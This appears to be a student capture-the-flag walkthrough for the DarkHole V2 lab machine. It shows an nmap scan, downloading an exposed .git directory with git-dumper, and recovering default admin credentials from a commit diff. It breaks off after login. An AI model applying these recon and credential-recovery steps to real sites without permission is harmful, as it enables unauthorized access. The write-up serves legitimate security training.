 # CTF 04
> Capture The Flag.
 The flag is stored in the user.txt file.
* IP: 192.168.10.17.

First thing to do is an agressive scan to the ip using nmap command
## nmap

```bash 
$ nmap -sV -Pn -p- -A $IP
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-14 06:40 EDT
Nmap scan report for 192.168.10.17
Host is up (0.0043s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 57:b1:f5:64:28:98:91:51:6d:70:76:6e:a5:52:43:5d (RSA)
|   256 cc:64:fd:7c:d8:5e:48:8a:28:98:91:b9:e4:1e:6d:a8 (ECDSA)
|_  256 9e:77:08:a4:52:9f:33:8d:96:19:ba:75:71:27:bd:60 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: DarkHole V2
| http-git: 
|   192.168.10.17:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: i changed login.php file for more secure 
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 332.80 seconds
```

So we have this relevant information: 
1. The port `80` is open and listening 
2. The `.git` is reacheable

So if we search the ip in the broswer we can see this is the main page

![Index page DarkHoleV2](https://github.com/PassiDel/IPB_Cybersecurity_CTF/blob/main/ctf4/imagen_2022-06-17_095914094.png)

In this page there is any information relevant or important for us, so we look now in the login.php

![Login page DarkHoleV2](https://github.com/PassiDel/IPB_Cybersecurity_CTF/blob/main/ctf4/imagen_2022-06-17_100010931.png)

Here we can see there is a login page, but we don´t have any credential yet, so we can´t do nothing here.
Lets move to the last thing we can see here the directory `.git`

![.git page DarkHoleV2](https://github.com/PassiDel/IPB_Cybersecurity_CTF/blob/main/ctf4/imagen_2022-06-17_100133653.png)

We can see  in the git history  in the directory `logs` and in the file `COMMIT_EDITMSG` we can read .
>i changed login.php file for more secure

So now that we know there is a vulnerability we want to see the content of the commmits done. There is a usefull tool call git-dumper to see the content of the commits.

So we install it first.
```bash
$ pip install git-dumper

$ git-dumper http://192.168.10.17 ~/website
```
Now that we have stored the content of the web in the our directory `~/website` we are runing the command `git diff` and the commit id for seeing the the login.php that were before.
```bash
$ git diff a4d900a8d85e8938d3601f3cef113ee293028e10

diff --git a/login.php b/login.php
index 8a0ff67..0904b19 100644
--- a/login.php
+++ b/login.php
@@ -2,7 +2,10 @@
 session_start();
 require 'config/config.php';
 if($_SERVER['REQUEST_METHOD'] == 'POST'){
-    if($_POST['email'] == "lush@admin.com" && $_POST['password'] == "321"){
+    $email = mysqli_real_escape_string($connect,htmlspecialchars($_POST['email']));
+    $pass = mysqli_real_escape_string($connect,htmlspecialchars($_POST['password']));
+    $check = $connect->query("select * from users where email='$email' and password='$pass' and id=1");
+    if($check->num_rows){
         $_SESSION['userid'] = 1;
         header("location:dashboard.php");
         die();

```
We use this id because it has as commit message .
>   I added login.php file with default credentials
 
 So now that we have the credentials `lush@admin.com` and `321` as user and password.

 Now we login in and there it is the profil page of our user.
![user page DarkHoleV2](https://github.com/PassiDel/IPB_Cybersecurity_CTF/blob/main/ctf4/imagen_2022-06-17_104736996.png)
